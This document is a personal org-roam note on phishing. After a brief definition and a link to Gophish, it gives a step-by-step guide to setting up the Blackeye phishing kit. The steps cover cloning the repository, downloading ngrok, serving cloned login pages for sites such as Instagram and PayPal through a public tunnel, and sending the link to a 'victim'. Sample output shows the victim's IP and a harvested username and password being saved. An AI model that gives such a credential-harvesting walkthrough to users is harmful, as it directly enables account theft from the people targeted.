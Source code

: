 #+title:Phishing
#+roam_tags: Social_Engineering

Phishing is a type of attack that are using E-mail, voice (Vishing), or SMS (smishing) to attack its target. This kind of attack can be pointed into an individual which is called as spear phishing. Phishing has been around since 90s targeting America Online (AOL). In these day and age, phishing is disguised in many ways, from E-mail notification of a big company sending you money, or even from a fake account that are sending you "love letter" with malware in disguise.

** Gophish

WEB: https://getgophish.com/
GIT: https://github.com/gophish/gophish


** Blackeye

GIT: https://github.com/An0nUD4Y/blackeye

Installation:
- PHP ( Should be available in Kali Linux )
- Ngrok ( Create your account first )
- GIthub Account ( Easier )

[ WARNING ] This preparation are needed if =blackeye.sh= not working as intended, as precaution, we have to manually run the ngrok server and serve the php to our http://localhost:8080 ( or another port ) to get it to works. Go to next section to actually run =blackeye=.

Here is the command you need to install and setup ngrok manually, though you will proabably be downloading this again in =blackeye=, so you might want to copy ngrok to your =blackeye= folder later. Authtoken can be seen [[https://dashboard.ngrok.com/get-started/your-authtoken][here]].

#+begin_src shell
$ git clone https://github.com/An0nUD4Y/blackeye
$ cd blackeye
$ wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
$ unzip ngrok-stable-linux-amd64.zip
$ ./ngrok authtoken 0000000000000000000000000000000000000000000000000
#+end_src

If you run ngrok server by itself, it will be seen like this:

#+begin_src shell
ngrok by @inconshreveable

Session Status                online
Account                       account-name (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://alphanumeric.ngrok.io -> http://localhost:8080
Forwarding                    https://alphanumeric.ngrok.io -> http://localhost:8080

Connections                   ttl     opn     rt1     rt5     p50     p90
                              22      0       0.25    0.07    0.06    3.14
#+end_src

As of when this articles made, you can access http://127.0.0.1:4040/status to check ngrok status and below =command_line= section, you will see your URL that can be used.

#+begin_src shell
$ sudo ./blackeye.sh # Password Needed

[sudo] password for archaict:

     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::

          [01] Instagram      [17] DropBox        [33] eBay
          [02] Facebook       [18] Adobe ID       [34] Amazon
          [03] Snapchat       [19] Shopify        [35] iCloud
          [04] Twitter        [20] Messenger      [36] Spotify
          [05] Github         [21] GitLab         [37] Netflix
          [06] Google         [22] Twitch         [38] Custom
          [07] Origin         [23] MySpace
          [08] Yahoo          [24] Badoo
          [09] Linkedin       [25] VK
          [10] Protonmail     [26] Yandex
          [11] Wordpress      [27] devianART
          [12] Microsoft      [28] Wi-Fi
          [13] IGFollowers    [29] PayPal
          [14] Pinterest      [30] Steam
          [15] Apple ID       [31] Bitcoin
          [16] Verizon        [32] Playstation

[*] Choose an option: 1 # choose your poison

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: # This link are served above
[*] Waiting victim open the link ...

[*] IP Found!
[*] Victim IP: 127.0.0.1 # It will be your public IP here (SECRET)
[*] User-Agent:  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/XX.0
[*] Saved: instagram/saved.ip.txt

[*] Waiting credentials ...

[*] Credentials Found!
[*] Account: helloWorld
[*] Password:  12345678
[*] Saved: sites/instagram/saved.usernames.txt
#+end_src

If your php is not connected, you can do this instead before running =blackeye=.

#+begin_src shell
$ php -d /path/to/blackeye/sites/instagram -S localhost:8080
#+end_src
